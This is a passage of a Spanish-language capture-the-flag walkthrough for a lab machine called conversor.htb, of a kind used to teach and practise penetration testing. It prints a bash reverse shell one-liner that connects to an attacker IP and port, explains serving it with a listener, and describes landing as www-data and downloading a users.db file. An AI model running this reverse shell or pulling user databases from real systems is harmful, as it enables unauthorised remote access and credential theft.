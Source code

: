 **shell.sh**

```bash

#!/bin/bash
bash -i >& /dev/tcp/10.10.16.100/9001 0>&1

```


- Debemos levantar un servidor en la misma ubicación que el archivo y con el puerto que indicamos en el archivo e iniciar un oyente en este caso en el puerto 9001.

![!\[\[Pasted image 20251031203936.png\]\]](<../../../public/img/CONVERSOR (12).png>)

- Somos el usuario www-data, encontramos la carpeta conversor.htb 

![alt text](<../../../public/img/CONVERSOR (4).png>)

- Encontramos el directorio instance, en ella existe el archivo users.db, lo descargamos a nuestra maquina para analizarlo. 

![alt text](<../../../public/img/CONVERSOR (13).png>)
